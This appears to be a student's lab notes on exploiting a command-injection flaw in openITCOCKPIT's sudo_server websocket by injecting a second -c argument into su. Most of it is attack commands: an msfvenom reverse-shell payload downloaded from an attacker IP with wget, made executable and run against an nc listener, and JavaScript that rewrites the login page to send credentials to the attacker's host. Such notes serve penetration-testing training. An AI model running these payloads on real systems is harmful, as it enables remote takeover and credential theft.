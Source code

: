 su someuser -c './check_http -I 192.168.119.120 -p 8080 -k 'test --help''
Listing 79 - Command speculation

Given that a single quote allows us to escape the command the developers expected us to run, we can reasonably assume a single quote is what encapsulates the user-provided data. We can also reasonably assume that this data is passed into the -c (short for "command") flag in su, which will be executed by the username provided to su. By appending a single quote, we can escape the encapsulation and directly inject into the su command.

Since we suspect that the developers are using -c to pass in the command we are attempting to run, what will happen if we pass in another -c?

kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e
[+] Connected!
./check_http -I 192.168.119.120 -p 8080 -k 'test -c 'echo 'hacked'
hacked
Listing 80 - Injecting echo command

In this output, the second -c argument was executed instead of the first. We can now run any command we desire. In order to simplify exploitation, we can make modifications to our client script to run code and bypass the filters.


shell:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST="192.168.45.204" LPORT=8888 -f elf > shell.elf
python3 -m http.server
./check_http -I 192.168.45.204 -p 8888 -k 'test -c 'wget http://192.168.45.204:8000/shell.elf -O /tmp/shell.elf
./check_http -I 192.168.45.204 -p 8888 -k 'test -c 'chmod +x /tmp/shell.elf
nc -nvlp 8888
./check_http -I 192.168.45.204 -p 8888 -k 'test -c '/tmp/shell.elf


```



Some example of login page from mentor:

```
fetch("https://openitcockpit/login/login.html").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://kali_IP"
	document.getElementsByTagName("form")[0].method = "get"
}))
```
